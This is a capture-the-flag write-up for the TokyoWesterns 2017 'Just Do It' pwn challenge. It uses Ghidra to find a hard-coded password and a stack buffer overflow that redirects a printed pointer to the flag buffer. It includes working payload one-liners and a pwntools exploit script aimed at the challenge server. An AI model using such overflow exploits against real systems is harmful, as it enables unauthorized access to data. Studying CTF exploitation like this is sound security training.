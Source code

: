 # Just Do It!

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one. This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:

![intro_data](pics/intro_data.png)

So we can see that it is a 32 bit binary, with a non executable stack.. When we run it, we can see it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

![main](pics/main.png)

So we can see that the file it is trying to open is `flag.txt`. When we create the file `flag.txt`, we see that we can actually run the binary:

![flag_setup](pics/flag_setup.png)

We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check. We see this via double clicking on `PASSWORD`:

```
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

![password_val](pics/password_val.png)

So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check like this:

```
$    python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `vulnBuf`. Let's see how many bytes `vulnBuf` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `vulnBuf`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `target` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:

```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$    python exploit.py
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!
